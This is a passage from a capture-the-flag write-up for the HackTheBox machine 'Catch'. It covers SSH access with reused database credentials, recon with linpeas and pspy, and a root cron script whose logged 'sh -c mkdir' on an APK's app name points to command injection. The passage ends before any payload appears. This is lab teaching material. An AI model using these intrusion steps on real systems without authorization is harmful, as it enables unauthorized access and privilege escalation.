 Using the database username and database password, let us attempt to ssh in. Fortunately, we are able able to ssh into the server.

```
┌──(kali㉿kali)-[~]
└─$ ssh will@10.10.11.150
will@10.10.11.150's password: 
will@catch:~$ id
uid=1000(will) gid=1000(will) groups=1000(will) 
```
### Obtaining user flag

```
will@catch:~$ cat /home/will/user.txt
<Redacted user flag>
```

### Privilege Escalation to root
Using linpeas, we realize that there is a verify.sh script that is available at /opt/mdm directory

```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxr-x--x+ 1 root root 1894 Mar  3 14:23 /opt/mdm/verify.sh                                                         
-rw-r----- 1 root will 33 Apr 16 07:22 /home/will/user.txt
```

Let us now inspect the source code of verify.sh. Froom the source code, we realize that verify.sh does the following actions:\
- Check for the signature of the apk file in /opt/mdm/apk_bin
- Check for the compileSDKVersion of the decompile apk in /opt/mdm/apk_bin using apktool
- Check if the APP_NAME in /res/values/strings.xml in the decompiled apk is "Catch"

Now, let us use pspy64s to inspect the background process of verify.sh. From pspy64s, we can find the commands that are being executed by the verify.sh script. We are also able to see that the process is being executed with UID of 0 which is root

```
2022/04/17 06:31:01 CMD: UID=0    PID=534055 | /bin/sh -c rm -rf /root/mdm/certified_apps/* 
2022/04/17 06:31:01 CMD: UID=0    PID=534057 | /bin/bash /opt/mdm/verify.sh 
2022/04/17 06:31:01 CMD: UID=0    PID=534056 | /bin/sh -c /opt/mdm/verify.sh 
2022/04/17 06:31:01 CMD: UID=0    PID=534063 | jarsigner -verify /root/mdm/apk_bin/e10b8a3148dc12f4d4add2e5.apk 
2022/04/17 06:31:02 CMD: UID=0    PID=534081 | /bin/bash /usr/bin/apktool d -s /root/mdm/apk_bin/e10b8a3148dc12f4d4add2e5.apk -o /root/mdm/process_bin                                                                                    
2022/04/17 06:31:02 CMD: UID=0    PID=534082 | /bin/bash /usr/bin/apktool d -s /root/mdm/apk_bin/e10b8a3148dc12f4d4add2e5.apk -o /root/mdm/process_bin 
2022/04/17 06:31:20 CMD: UID=0    PID=534111 | grep -oPm1 (?<=compileSdkVersion=")[^"]+ /root/mdm/process_bin/AndroidManifest.xml                                                                                                         
2022/04/17 06:31:20 CMD: UID=0    PID=534112 | /bin/bash /opt/mdm/verify.sh 
2022/04/17 06:31:20 CMD: UID=0    PID=534114 | xargs -I {} sh -c mkdir {} 
2022/04/17 06:31:20 CMD: UID=0    PID=534115 | sh -c mkdir Catch 
2022/04/17 06:31:20 CMD: UID=0    PID=534116 | mkdir Catch 
2022/04/17 06:31:20 CMD: UID=0    PID=534117 | mv /root/mdm/apk_bin/e10b8a3148dc12f4d4add2e5.apk /root/mdm/certified_apps/Catch/catchv1_verified.apk                                                                                      
2022/04/17 06:31:20 CMD: UID=0    PID=534118 | rm -rf /root/mdm/process_bin 
2022/04/17 06:31:20 CMD: UID=0    PID=534120 | /bin/bash /opt/mdm/verify.sh 
2022/04/17 06:32:01 CMD: UID=0    PID=534136 | jarsigner -verify /root/mdm/apk_bin/73f4579cf8bd2e138a2b2ebb.apk 
```
